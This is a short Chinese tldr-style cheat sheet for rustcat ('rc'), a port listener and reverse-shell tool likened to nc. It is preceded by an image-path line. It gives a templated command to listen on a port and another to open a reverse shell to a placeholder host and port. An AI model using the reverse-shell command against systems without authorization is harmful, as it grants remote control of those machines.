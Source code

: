 # rc

> 一个现代简约的端口监听器和反向 shell。
> 类似于 `nc`。
> 更多信息：<https://github.com/robiot/rustcat/wiki/Basic-Usage>。

- 在特定端口上开始监听：

`rc -lp {{port}}`

- 开始一个反向 shell：

`rc {{host}} {{port}} -r {{shell}}`